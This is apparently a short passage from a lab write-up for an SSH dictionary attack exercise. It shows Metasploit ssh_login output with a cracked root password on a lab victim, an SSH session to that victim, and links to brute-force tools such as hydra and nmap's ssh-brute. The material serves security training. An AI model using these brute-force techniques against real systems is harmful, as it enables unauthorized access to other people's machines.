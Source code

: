 ```
[+] 192.4.223.3:22 - Success: 'root:attack' 'uid=0(root) gid=0(root) groups=0(root) Linux victim-1 5.4.0-121-generic #137-Ubuntu SMP Wed Jun 15 13:33:07 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (192.4.223.2:43601 -> 192.4.223.3:22) at 2022-08-22 14:44:38 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/ssh_login) > exit -y
```

What is the message of the day? (Printed after the user logs in to the SSH server).

`SSH recon dictionary attack lab`

```
root@attackdefense:~# ssh root@192.4.223.3
The authenticity of host '192.4.223.3 (192.4.223.3)' can't be established.
ECDSA key fingerprint is SHA256:dxlBXgBb0Iv5/LmemZ2Eikb5+GLl9CSLf/B854fUeV8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.4.223.3' (ECDSA) to the list of known hosts.
Ubuntu 16.04.5 LTS
root@192.4.223.3's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
SSH recon dictionary attack lab
root@victim-1:~# ls
```

## 解决方案
此实验室的解决方案可在以下手册中找到：https://assets.ine.com/labs/ad-manuals/walkthrough-527.pdf

[OpenSSH](https://www.openssh.com/)

[hydra](https://www.kali.org/tools/hydra/)

[Nmap Script: ssh-brute](https://nmap.org/nsedoc/scripts/ssh-brute.html)

[SSH Login Check Scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/ssh_login/)
